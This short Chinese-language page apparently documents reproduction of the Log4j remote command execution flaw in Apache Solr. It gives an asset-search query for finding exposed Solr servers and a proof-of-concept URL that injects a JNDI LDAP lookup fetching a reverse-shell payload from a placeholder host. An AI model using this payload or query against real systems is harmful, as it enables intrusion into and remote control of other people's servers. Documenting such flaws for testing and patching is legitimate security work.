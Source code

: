 # Apache Solr Log4j组件 远程命令执行漏洞

## 漏洞描述

Apache Solr Log4j组件 远程命令执行漏洞，详情略

## 漏洞影响

```
Apache Solr
```

## 网络测绘

```
app="APACHE-Solr"
```

## 漏洞复现

登录页面

![](images/202205251622273.png)

验证POC

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![](images/202205251622876.png)
